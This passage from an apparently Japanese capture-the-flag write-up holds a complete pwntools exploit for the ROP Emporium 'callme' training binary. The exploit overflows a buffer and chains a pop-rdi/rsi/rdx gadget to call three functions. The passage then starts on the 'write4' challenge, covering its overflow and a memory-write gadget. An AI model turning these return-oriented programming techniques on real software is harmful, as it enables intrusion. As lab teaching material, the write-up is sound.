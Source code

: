 
```
#!/usr/bin/env python3

from pwn import *

FILE = './callme'

def exploit():
    context.update(arch='amd64', os='linux')
    elf = ELF(FILE)
    conn = process(FILE)

    # making a payload
    payload  = b''
    payload += b'A' * 0x28
    payload += p64(0x0040093c) # pop rdi; pop rsi; pop rdx; ret;
    payload += p64(0xdeadbeefdeadbeef)
    payload += p64(0xcafebabecafebabe)
    payload += p64(0xd00df00dd00df00d)
    payload += p64(elf.symbols['callme_one'])
    payload += p64(0x0040093c) # pop rdi; pop rsi; pop rdx; ret;
    payload += p64(0xdeadbeefdeadbeef)
    payload += p64(0xcafebabecafebabe)
    payload += p64(0xd00df00dd00df00d)
    payload += p64(elf.symbols['callme_two'])
    payload += p64(0x0040093c) # pop rdi; pop rsi; pop rdx; ret;
    payload += p64(0xdeadbeefdeadbeef)
    payload += p64(0xcafebabecafebabe)
    payload += p64(0xd00df00dd00df00d)
    payload += p64(elf.symbols['callme_three'])

    # exploit
    conn.recvuntil(b'>')
    conn.sendline(payload)
    conn.interactive()
    return

if __name__ == '__main__':
    exploit()
```

# Challenge 4 write4

[問題へのリンク](https://ropemporium.com/challenge/write4.html)

これまで単一のバイナリが問題になっていた。しかし今回は問題のバイナリである`write4`に加えて`libwrite4.so`という共有ライブラリが付属している。

`pwnme`関数にはBuffer Overflowの脆弱性があるので攻撃の起点はここになる。また、`print_file`関数は、第一引数に指定した文字列のポインタを使ってファイルの内容を出力してくれる。ただ、バイナリを探しても`flag.txt`の文字は無いので一度どこかに`flag.txt`の文字を書き込んでからそのアドレスを引数として渡す必要がある。

Ropperでガジェットを探すと`mov qword ptr [r14], r15; ret;`という命令がある。これは`r14`レジスタ内の値をアドレスと解釈してその場所に`r15`レジスタの中身を書くというものなので書き込みに利用できる。
